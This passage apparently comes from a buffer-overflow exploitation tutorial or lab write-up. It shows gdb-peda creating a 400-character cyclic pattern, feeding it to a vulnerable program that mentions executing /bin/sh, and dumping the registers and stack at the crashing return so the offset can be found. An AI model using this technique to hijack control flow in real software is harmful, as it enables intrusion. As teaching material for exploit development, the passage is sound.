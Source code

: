 ```
$ gdb 
gdb-peda$ pattern_create 400 badfile.txt
Writing pattern of 400 chars to filename "badfile.txt"
```

We can example the contents of RSP:

```
gdb-peda$ r < badfile.txt
Try to exec /bin/sh
Read 400 bytes. buf is AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKA�
Returned properly.

Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x0 
RCX: 0x7ffff7b042c0 (<__write_nocancel+7>:	cmp    rax,0xfffffffffffff001)
RDX: 0x7ffff7dd3780 --> 0x0 
RSI: 0x602010 ("Returned properly.\n is AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKA\220\001\n")
RDI: 0x1 
RBP: 0x416841414c414136 ('6AALAAhA')
RSP: 0x7fffffffdb18 ("A7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%h"...)
RIP: 0x4005ff (<vuln+73>:	ret)
R8 : 0x2e796c7265706f72 ('roperly.')
R9 : 0x77 ('w')
R10: 0x194 
R11: 0x246 
R12: 0x4004c0 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffdc10 ("A%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%y \340\377\377\377\177")
R14: 0x0 
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x4005f4 <vuln+62>:	call   0x400470 <puts@plt>
   0x4005f9 <vuln+67>:	mov    eax,0x0
   0x4005fe <vuln+72>:	leave  
=> 0x4005ff <vuln+73>:	ret    
   0x400600 <main>:	push   rbp
   0x400601 <main+1>:	mov    rbp,rsp
   0x400604 <main+4>:	sub    rsp,0x10
   0x400608 <main+8>:	mov    DWORD PTR [rbp-0x4],edi
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdb18 ("A7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%h"...)
0008| 0x7fffffffdb20 ("AA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%"...)
0016| 0x7fffffffdb28 ("jAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA"...)
0024| 0x7fffffffdb30 ("AkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%O"...)
0032| 0x7fffffffdb38 ("AAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%"...)
```
